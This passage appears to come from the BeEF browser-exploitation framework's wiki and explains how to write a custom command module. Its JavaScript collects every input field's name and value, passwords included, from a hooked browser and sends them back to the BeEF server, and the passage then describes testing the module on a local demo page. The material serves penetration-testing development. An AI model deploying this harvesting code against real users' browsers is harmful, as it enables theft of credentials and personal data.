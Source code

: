 ```js
data = '';
for (x of document.querySelectorAll("input")) { 
    data += x.name + ":" + x.value + "\n";
}
```

Then we send it back to beef like this:
```js
beef.net.send("<%= @command_url %>", <%= @command_id %>, "results="+data);
```


The final command.js looks like this:

```js
beef.execute(function() {

	data = '';
	for (x of document.querySelectorAll("input")) { 
	    data += x.name + ":" + x.value + "|";
	}

	beef.net.send("<%= @command_url %>", <%= @command_id %>, "results="+data);

});

```

The data sent back is prepended with `results` because on the receiving end, `module.rb` stores the result using "results" as a key:

```rb
content['results'] = @datastore['results']

```
Thus the parameter name must match that in `command.js`.

## Testing the module

Now all that is done, when you fire up beef you should see one more module loaded than before. Open up the control panel and get a browser hooked.

You can hook a browser locally by simple firing up Chrome and opening `http://localhost:3000/demos/basic.html`

Then search the name of your new module in the commands tab => Module Tree, and try it out!

[[Images/test-module.png|align=center]]

***
[[Javascript API|Javascript API]] | [[Creating An Extension|Creating An Extension]]
